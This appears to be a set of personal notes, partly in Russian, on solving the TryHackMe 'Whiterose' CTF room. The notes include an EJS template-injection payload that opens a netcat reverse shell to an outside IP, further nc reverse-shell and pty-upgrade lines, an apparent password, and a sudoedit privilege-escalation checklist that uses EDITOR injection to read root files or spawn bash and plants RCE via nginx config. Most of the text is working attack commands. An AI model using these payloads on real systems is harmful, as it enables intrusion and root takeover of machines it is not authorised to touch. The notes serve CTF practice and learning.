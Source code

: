 ttps://0xb0b.gitbook.io/writeups/tryhackme/2024/whiterose#web-access-olivia-cortzez
	https://eslam.io/posts/ejs-server-side-template-injection-rce/
	https://github.com/mde/ejs/issues/720
	name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "busybox nc 10.8.134.24 4446 -e sh"');//

![[Pasted image 20250527232010.png]]

busybox nc 10.8.134.24 4446 -e sh
nc 10.8.134.24 4446 -e sh
python3 -c 'import pty; pty.spawn("/bin/bash")

'p~]P@5!6;rs558:q'

**Gayle Bev**

```
export EDITOR="vi -- /root/root.txt"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

самое интересное, вход к руту
## 🔍 `sudoedit` CTF-чеклист

### 📋 1. **Посмотри, есть ли `sudoedit`**

```
sudo -l
```

👉 Ищи строки типа:

```
(root) NOPASSWD: sudoedit /путь/к/файлу
```

🧠 2. **Пойми, от чьего имени выполняется (`root`) и на какие файлы есть доступ**

- Если ты можешь редачить **любой файл с root-доступом**, это уже почти shell.
    
- Если файл "скучный" — проверь, не можешь ли **обмануть `EDITOR`**, чтобы отредактировать другой файл.

🪄 3. **Пробуй "инъекцию" через `$EDITOR`**

```
export EDITOR="vi -- /root/root.txt"
sudo sudoedit /some/path/file
```

```
EDITOR="vim -c ':!/bin/bash'" sudoedit /some/path/file
```

🧠 Суть: **редактор может делать больше, чем просто редактировать**, и ты этим пользуешься.

🧪 4. **Проверяй, какая версия `sudo`**

```
sudoedit -V
```

👉 Если версия **до 1.9.5p2** — возможен `EDITOR=bash` эксплойт (старый баг).  
Если **новее** — он отфильтрует подозрительное.

🧨 5. **Если файл веб-сервера — ищи RCE**

```
location /shell {
    root /var/www/html;
    autoindex on;
}
```


или заливаешь webshell через proxy_pass.

### 🔐 6. **Если не даёт shell — найди, как вызвать reload**

- Иногда `nginx` или `supervisor` смотрит на конфиг-файл, и ты его можешь редактировать, а затем:
```
curl http://127.0.0.1:PORT/reload
или
sudo systemctl restart nginx
```

📊 Визуалка (в духе майндмэп):

```
              +--------------------+
              |  sudoedit access   |
              +--------------------+
                        |
          +-------------+-------------+
          |                           |
     Can edit file?             Inject EDITOR?
          |                           |
    +-----+-----+              +------+------+
    | Web config? |            | vi/bash/vim? |
    +-----+-----+              +------+------+
          |                           |
    Inject RCE to config         Read/write other files
          |                           |
    Reload service?            Maybe get shell or flag

```
🧠 Запомни правило: **где `sudoedit`, там почти всегда дырка**, если редактор не зажат.




